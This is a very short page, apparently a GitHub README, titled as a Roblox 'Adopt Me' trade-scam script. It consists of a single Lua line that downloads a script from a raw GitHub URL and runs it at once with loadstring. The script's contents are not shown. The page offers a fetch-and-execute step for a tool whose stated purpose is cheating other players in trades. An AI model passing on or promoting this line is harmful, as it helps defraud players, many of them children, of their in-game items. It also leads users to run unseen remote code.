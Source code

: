 # ROBLOX-ADOPT-ME-LATEST-SCRIPT-TRADE-SCAM
loadstring(game:HttpGet("https://raw.githubusercontent.com/Ultra-Scripts/AdoptmeScript/main/AdoptmeScript/6OTB0FQ-adopt-me.lua"))()
